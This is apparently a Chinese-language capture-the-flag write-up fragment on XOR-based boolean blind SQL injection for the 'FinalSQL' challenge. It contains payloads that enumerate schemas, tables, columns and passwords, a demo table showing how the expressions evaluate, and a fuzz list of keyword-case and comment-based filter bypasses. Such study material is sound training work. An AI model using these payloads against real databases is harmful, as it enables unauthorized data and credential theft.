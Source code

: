 ### 0x5 盲注
`[极客大挑战 2019]FinalSQL`

```
id=0^(1) 可返回数据时
```
https://www.cnblogs.com/hello-there/p/13026698.html
http://www.pdsdt.lovepdsdt.com/index.php/2019/11/19/2019_geek_web/


1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))=%d)^1"%(i,ord(j)) 获取数据库名称

1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))=%d)^1"%(i,ord(j)) 获取数据库表名

```
1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)" %(i,mid)# i d是参数
或
1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))=%d)^1"%(i,ord(j))
```

语句分析

```
SET NAMES utf8mb4;
DROP TABLE IF EXISTS `user`;
CREATE TABLE `user`  (
  `id` int(11) NULL DEFAULT NULL,
  `password` varchar(255) CHARACTER SET latin1 COLLATE latin1_swedish_ci NULL DEFAULT NULL
) ENGINE = InnoDB CHARACTER SET = latin1 COLLATE = latin1_swedish_ci ROW_FORMAT = Dynamic;
INSERT INTO `user` VALUES (NULL, 'pwd1');
INSERT INTO `user` VALUES (NULL, 'pwd2');

select group_concat(password) from user  -- pwd1,pwd2
select substr((select group_concat(password) from user),1,1)  -- p
select ascii(substr((select group_concat(password) from user),1,1)) -- 112
select (ascii(substr((select group_concat(password) from user),1,1)) > 1) -- 1
select 1^(ascii(substr((select group_concat(password) from user),1,1)) > 1) -- 0
```


1.fuzz字典
```
and
aNd
or
oR
oorr
select
sElect
union
unIon
union select
union/**/select
/**/
 
 '
 "
 \
 information_schema
 ^
 &&
 uniOn/**/select
```
